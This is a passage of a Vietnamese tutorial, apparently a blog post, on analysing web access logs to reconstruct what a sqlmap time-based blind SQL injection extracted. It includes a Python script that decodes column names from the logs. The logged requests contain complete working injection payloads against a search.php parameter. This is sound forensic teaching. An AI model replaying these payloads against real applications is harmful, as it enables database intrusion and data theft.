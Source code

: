 ```
103.37.29.230 - - [10/Aug/2020:08:32:13  0000] "GET /webapp/search.php?id=123 AND (SELECT 5051 FROM (SELECT(SLEEP(2-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(column_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x776562617070),2,1))>51,0,2)))))JGbP) HTTP/1.1" 200 430 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
103.37.29.230 - - [10/Aug/2020:08:32:13  0000] "GET /webapp/search.php?id=123 AND (SELECT 5051 FROM (SELECT(SLEEP(2-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(column_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x776562617070),2,1))>48,0,2)))))JGbP) HTTP/1.1" 200 431 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
103.37.29.230 - - [10/Aug/2020:08:32:13  0000] "GET /webapp/search.php?id=123 AND (SELECT 5051 FROM (SELECT(SLEEP(2-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(column_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x776562617070),2,1))>9,0,2)))))JGbP) HTTP/1.1" 200 431 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
```

Phần này phân tích tay cũng được vì nó không quá dài nhìn vào đống log được decode url thì thấy có một query có biểu thức so sánh là `!=51` giống hệt những phần trước thì chúng ta có thể suy ra là  bảng users của database webapp (WHERE table_name=0x7573657273 AND table_schema=0x776562617070) có 3 cột.

Để lấy được tên các cột các bạn làm tương tự như lấy ra tên các databases, phần này mình thường dùng regex để match chuỗi có biểu thức so sánh `!=` và `LIMIT` để biết kết thúc tên của một cột
 
```python
import re

lines = open('column.log').read().splitlines()

column_name = ""
idx = 0
for line in lines:
    result = re.findall(r'LIMIT%20[0-9]{1,2}%2C[0-9]{1,2}%29%2C[0-9]{1,2}%2C1%29%29%21%3D[0-9]{2,3}', line)
    if result:
        char = result[0][36::]
        old_idx = int(result[0][8:9])
        if old_idx - idx > 0:
            column_name +=" "
            idx = old_idx
        column_name += chr(int(char))

print(column_name.split(" "))
```

![](https://images.viblo.asia/04c3f0c0-8605-41a1-b991-a6ecae766185.png)

### Kết luận

Đây là phần phân tích log dựa vào cả code và thủ công đôi khi còn nhiều hạn chế và nhiều khi kết quả không được chính xác hoàn toàn. Nhưng cũng là một bước tiếp cận cho việc phân tích log đạt được hiệu suất cao. Để tối ưu hơn với những hệ thống lớn cần có những kỹ năng cao hơn và những công cụ hỗ trợ mạnh hơn để đạt được kết quả tốt nhất có thể.